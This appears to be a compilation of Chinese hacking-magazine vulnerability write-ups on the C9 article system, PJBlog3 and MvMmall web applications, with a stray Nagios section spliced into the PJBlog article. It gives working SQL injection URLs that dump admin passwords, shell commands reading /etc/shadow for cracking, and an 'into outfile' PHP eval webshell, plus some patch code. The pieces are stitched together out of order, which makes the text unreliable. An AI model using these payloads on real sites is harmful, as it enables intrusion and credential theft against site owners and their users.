从图4中我们可以看到，页面里爆出了列数以及相应的位置，我们继续提交 url：`http://127.0.0.1/plug_vote/xml.asp?voteid=1%20and%201=2%20union%20select%201,2,3,4,5,6,7,username,password,10,11,12,13,14,15,16,17,18%20from%20user%20where%20id=1`，如图5。

从图5中我们可以看到，成功爆出了 user 表里 id=1 的管理员账号和口令。

下面我们讲讲进入后台怎么拿 Webshell，其实也很简单。进入后台，有一个“风格管理”，进入风格管理我们就可以对 C9 静态文章系统风格进行管理。这里可以新建文件，也可以新建文件夹，我们进入系统默认的 dede53 目录，然后新建一个 asp 文件，可以对文件内容进行编辑。

这里我新建了一个 test.asp 的文件，写入了一句话木马，test.asp 文件位于 temp/dede53 目录下，提交 url：`http://localhost/temp/dede53/test.asp`，如图6。

从图6中我们可以看到，木马成功写入 test.asp 文件。

### 三、总结

C9 静态文章发布系统最新 0day 分析与利用到这里就全部结束了，漏洞出现在新模块，这是程序员对于新增加的模块没有认真测试，以为用 funstr 函数过滤了 <、>、空格、单引号就万事大吉了，没想到整型注入可以不需要那些字符。

文章中有什么不明白的地方可以到《黑客手册》论坛 www.nohack.cn/bbs 去找我，我的论坛 ID 是 rabbitsafe。

> 编辑点评：这篇文章分析了 C9 静态文章发布系统新加模块中的一个很严重的漏洞，估计新功能可能是新接手这个项目的技术人员完成的，否则不会出现。

## PJBlog3 v3.1.6.227 漏洞分析

- 从本文你可以学到：
  - 1. PJBlog3 v3.1.6.227 漏洞分析
  - 2. 漏洞的修复

今天朋友搭建了个人BLOG，采用的是PJBlog3 v3.1.6.227系统，去官网看了一下，是PJBlog最新版。对这款博客系统有关注的朋友应该知道，今年4月以来，PJBlog屡爆漏洞，下面我们就来看一下PJBlog3 v3.1.6.227的安全系数怎么样。

以前的Action.asp等漏洞我们就不看了，其曾数次被人发现存在安全隐患，感兴趣的朋友可以自己去试一下。今天我们主要讲的是PJBlog3 v3.1.6.227友情链接提交漏洞和日志时间自定义漏洞。因为代码较长且大多为无用信息，以下我们只摘取有用代码，完整代码及网站程序请大家去官网下载。

我们先看第一个漏洞，友情链接文件为BlogLink.asp，看看其中友情链接提交代码，如图1。

这部分是获取我们输入的友情链接站名、URL、网站LOGO等信息，大家可以看到，它只对空作出了处理，也就是我们不得留空。接着往下看，代码如图2。

这部分是我们在输入内容（不为空）并确定后，将输入的内容link_Name、link_URL、link_image等信息保存到数据库相对应的表名中并进行排序和一些编辑操作。

```asp
If request.form("action") = "postLink" Then
  ...
  link_Name = checkURL(checkstr(request.Form("link_name")))
  link_URL = checkURL(checkstr(request.Form("link_url")))
  link_image = checkURL(checkstr(request.Form("link_image")))
  linkvalidate = checkURL(checkstr(request.Form("link_validate")))
  ...
End If
```



```asp
linkCount = Cint(conn.Execute("select count(*) from blog_links")(0))
Set linkObj = Server.CreateObject("adodb.recordset")
linkObj.Page = blog_links
linkObj.AddNew
linkID = (link_Name)
linkID = (link_URL)
linkID = (link_image)
...
linkObj("link_Show") = false
linkObj.Update
...
```


### 补充：Nagios 相关信息
# 关键的两个文件，咱们得先保存下来，以后再次造访问得着
# 第一个是nagios登录用的http认证文件
sh-3.1# cat /usr/local/nagios/etc/htpasswd.users
nagiosadmin:
...
# 这个就不用说了，是用户密码，使用“John the Ripper”来破解之后，直接用它登录多爽啊！
sh-3.1# cat /etc/shadow
root:$1$...
...
nagios:$1$...

## 四、后记

最新的nagios-3.1.1中已经修补了该漏洞，在代码的359行使用了is_valid_hostip函数来检测参数的格式，参数中仅允许数字和字母以及“.”、“-”符号等域名和IP可能用到的字符。

> 微软的《安全代码编写准则》中，首段就写到：“如果您允许您的应用程序接受用户输入（以直接或间接方式），则必须在使用输入之前对其进行验证。恶意用户会尝试通过调整输入以表示无效数据来使您的应用程序失败。用户输入的首要规则是：在经过验证之前，所有输入都是错误的。”

看来，代码的安全来自于对用户输入的严格审查。

（文中用到的代码已经收录在光盘中）

看到这里大家还没反应过来吗？它没有判断我们提交的字符是否合法！而且没有判断我们提交的字符长度是否在数据库允许范围内！现在我们到数据库里看一下link_Name、link_URL、link_image这几个字段，如图3。

| 字段 | 类型 |
|---|---|
| link_ID | 自动编号 |
| link_Name | 文本 |
| link_URL | 文本 |
| link_Type | 文本 |
| link_Order | 数字 |
| link_Show | 是/否 |
| link_Valid | 是/否 |

可以看到，不仅是友情链接，其它的所有字段全部定义大小为50！如果我们提交的字符长度超过50会怎么样呢？

因为前台的网站名称只能输入42个字符，所以我们使用特殊符号或者语句，比如 `<script>alert("Test1")</script>`。因为每个字段的大小都是一样的，我们只将特殊语句输入其中一处就可以，其它的随便输入，如图4。

提交后数据库报错，如图5。看完这个是不是很不过瘾？因为我们提交的字符都被转化了，虽然报错，但是却无法构造特殊语句。那么再看下第二个漏洞：日志时间定义不规范。

PJBlog的日志显示比较人性化，比如我们要查看XX网站2009年的日志，只要在网址URL后输入 `default.asp?log_Year=2009` 就可以了。如果要看2009年6月的，就再加上 `&log_Month=6`，以此类推。

大家知道，很多网站只要涉及到参数就很容易产生过滤不严的问题，我们试一下不提交2009，将其替换成特殊字符会怎么样。比如随便输入字符@，结果如图6。

边框工具栏报错，其实这里我们不用去看代码也能分析出报错原因了。我们去看下/common/library.asp的代码，如图7。






```asp
Function cWendar(C_Year, C_Month, C_Day, update)
  dim C_Y, S_Date, E_Date, isBu, DClass, RS_Month, L
  If C_Year = Empty Then C_Year = Year(Now())
  If C_Month = Empty Then C_Month = Month(Now())
  If C_Day = Empty Then C_Day = 0
  C_Year = CInt(C_Year)
  C_Month = CInt(C_Month)
  C_Day = CInt(C_Day)
```
图7 报错的代码

果然，系统是以 CInt 对时间进行定义的，而且没有对我们的输入类型进行判断 and 处理（篇幅关系就不发代码了）。熟悉编程的朋友都知道，CInt 其实就是定义类型为 int，也就是整数型，而当我们提交字符串时，因为代码没有判断而进行数据提交，导致报错。

这里我们是在 URL 上进行提交的，不会对我们输入的字符进行转换，也就是我们可以提交一些特别构造的语句去达到我们的目的！具体的提交语句不写了，避免某些人的疯狂行为带来法律后果，大家感兴趣的话可以自己去构造语句尝试。建议大家自己搭建环境进行测试，不要搞破坏行为，任何因本文引起的法律问题本人及《黑客手册》概不负责。最后，感谢猪哥靓提供的测试环境。

下面我提出几种解决方法：对于第一个 BUG，我们可以对比输入的字符串长度进行处理，比如：

```html
<textarea name="cont" maxlength="50"></textarea>
<%
if len(request("cont"))>50 then
%>
<script language="JavaScript">alert("字符过长！");history.back();</script>
<%
end if
%>
```

对于第二个 BUG，处理方法比较多，一种是根据 CINT 的本身属性进行判断处理。我们知道 CINT 的范围是 -32,768 到 32,767，所以先检测参数是否为整数，代码如下：

```asp
function Is_Int(a_str)
if not isnumeric(a_str) or len(a_str) > 5 then
  Is_Int = false
  exit function
elseif len(a_str) < 5 then
  Is_Int = true
  exit function
end if
if cint(left(a_str , 4)) > 3276 then
  Is_Int = false
  exit function
elseif cint(left(a_str , 4)) = 3276 and cint(right(a_str , 1)) > 7 then
  Is_Int = false
  exit function
else
  Is_Int = true
  exit function
end if
end function
```

然后进行处理，比如非整数时将其替换为空字符或者其它字符，我们也可以在非整数时返回一个网址，相关代码如下：

```asp
id=replacestr(id)
if len(id)>5 then id=left(id,5)
if id<>"" then id=clng(id)
if err.number<>0 or id="0" then response.redirect "http://www.nohack.cn"
dim rs
set rs=conn.execute("select id from news where id="&id&"")
```

对于第二个 BUG，也可以用 request 得到字符串，判断其中是否只有 0-9，如果是其它字符则进行处理。

> **编辑点评：** 本文分析了两个最新版 PJBlog3 v3.1.6.227 的漏洞，其中有些思路很不错，具有一定的启发作用。

---

## MvMmall 网店系统 v5.5.1 漏洞分析

- 从本文你可以学到：
  - 1. MvMmall 网店系统漏洞分析
  - 2. 漏洞的利用及 webshell 获取



MvMmall 是一套基于 php+mysql 构建的网店系统，最新版本为 5.5.1 完美正式版，官方对这个版本的安全性很是自信，在其简介里有一句：因为全新的程序框架，MvMmall 具备了灵活的可扩展性及更高的可靠性和安全性。前些天，我下载回来读了下代码，发现安全做的还不错，但漏洞还是有的，下面一起分析下。

众所周知，在 php 中有个 magic_quotes_gpc 选项，当打开时，所有的 “'”（单引号）、“"”（双引号）、“\”（反斜线）和 NULL（空）字符都会被自动加上一个反斜线进行转义。并且这个选项默认是打开的，所以很多字符型注入也因此失效了。但如果是数字型的注入，并且变量在被带入 SQL 查询时没有使用 “'”（单引号）引起来，漏洞也就发生了！

在 contrast.php 的 18-39 行有如下代码：

```php
require_once './include/common.inc.php';
require_once MVMMALL_ROOT.'header.php';
$mm_brand = $cache->get_cache('brand'); // 品牌
$id = dhtmlspecialchars($id); // $id 仅经过 dhtmlspecialchars 函数过滤
```

```php
$sql = "SELECT a.uid,a.goods_type,a.goods_name,a.goods_brand,a.goods_file1,a.goods_sale_price,a.goods_market_price,a.goods_category,a.goods_kg,a.upv,a.up_date,a.goods_advance,b.goods_id,b.*, c.id,c.att_name,c.att_type FROM `{$tablepre}goods_table` AS a LEFT JOIN `{$tablepre}att_value` AS b ON a.uid=b.goods_id LEFT JOIN `{$tablepre}attribute` AS c ON b.bute_id=c.id WHERE a.uid IN($id) AND a.upv='1' AND a.up_date<='$m_now_time' ORDER BY b.bute_id";
$result = $db->query($sql); // 带入 sql 查询
while ($list=$db->fetch_array($result)){
  $list['url'][$list['uid']]['value'] = GetBaseUrl('product', ...);
  $goods_name[$list['uid']]['value'] = '<a href="'.$list['url'].'" target="_blank" title="'.$list['goods_name'].'">'.$list['goods_name'].'</a>';
  $goods_photo[$list['uid']]['value'] = '<a href="'.$list['url'].'" target="_blank" title="'.$list['goods_name'].'"></a>';
  $goods_sale_price[$list['uid']]['value'] = $list['goods_sale_price'];
}
```

### 新洞练练看

```php
$goods_market_price[$list['uid']]['value'] = currency($list['goods_market_price']);
$goods_sale_price[$list['uid']]['value'] = currency($list['goods_sale_price']);
$goods_kg[$list['uid']]['value'] = $list['goods_kg'].'kg';
$goods_brand[$list['uid']]['value'] = $mm_brand[$list['goods_brand']];
$goods_advance[$list['uid']]['value'] = $list['goods_advance'];
$goods_buy[$list['uid']]['value'] = "<a href=\"javascript:put_flow('$list[uid]','C')\">$lang[buy]</a> | <a href=\"javascript:put_flow('$list[uid]','S')\">$lang[wish]</a>";
$arr[$list['att_id']]['name'] = $list['att_name'];
$arr[$list['att_id']]['value'] = $list['att_value'];
$arr[$list['att_id']]['price'] = $list['att_price'];
$arr[$list['att_id']]['att_type'] = $list['att_type'];
$arr[$list['att_id']]['goods_id'] = $list['uid'];
..........
```

```php
function dhtmlspecialchars($string) {
    if(is_array($string)) {
        foreach($string as $key => $val) {
            $string[$key] = dhtmlspecialchars($val);
        }
    } else {
        $string = preg_replace('/&amp;(#(\d{3,5}|x[a-fA-F0-9]{4});|[a-zA-Z][a-z0-9]{2,5});/', '&\\1', str_replace(array('&', '"', '<', '>'), array('&amp;', '&quot;', '&lt;', '&gt;'), $string));
    }
    return $string;
}
```

上面的代码中，$id仅经过 **dhtmlspecialchars** 函数过滤就被带入sql查询，并且在sql的IN($id)中，没有使用“'”（单引号）引起来。我们接着看 **dhtmlspecialchars** 函数，代码如上。

**dhtmlspecialchars** 函数通过一段正则表达式匹配替换“&#111;”或“&#xaaA0;”之类的字符，然后过滤“&、"、<、>”。不过正则貌似写错了，&写成了&amp;，导致过滤失效。就算没有写错，也对我们注入没有什么影响。

下面来测试下，访问 **contrast.php?id=1**，提交“)”报错了，因为sql语句中的括号没有闭合，所以报错。从报错信息中我们可以知道，表前缀为 **mvm_**，如图1。

接着提交 “) and 1=1%23” 和 “) and 1=2%23”，页面返回不同，说明漏洞存在，如图2、图3。



下面简单了，只要把“and 1=1”换成注入语句就行了。为了方便，我写了一个exp给大家娱乐下，使用格式为：**php mvmmallexp.php 目标网址 路径 管理员id**，如图4。



通过注入得到md5密码后，可以在线查询得到明文后登录后台（/admincp.php?module=index）。至于后台如何获取webshell，除了可以利用后台的“执行SQL”功能外，我找不到其它的方法，但有个前提，那就是 Mysql 用户必须拥有 **file_priv** 权限（即文件读写权限，一般root用户就拥有 file_priv 权限）。



首先先获得物理路径和数据库连接用户，因为管理员登录后台后，系统会把物理路径存入数据库，所以可以通过查询数据库得到物理路径。在后台的“执行SQL”处执行语句：`update mvm_login_table set login_ip=user(),login_referer=(SELECT manager_file FROM mvm_manager_table limit 0,1);`（mvm_为表前缀，如果不是mvm_，记得修改为相应的表前缀），接着依次选择“统计管理”->“日志管理”->“登录管理”得到物理路径和数据库连接用户，然后回到“执行SQL”处执行语句：`select '<?php eval($_POST[cmd])?>' into outfile 'D:/web/mvmmall/myspy.php';`，最后导出webshell就行了，如图5、图6。


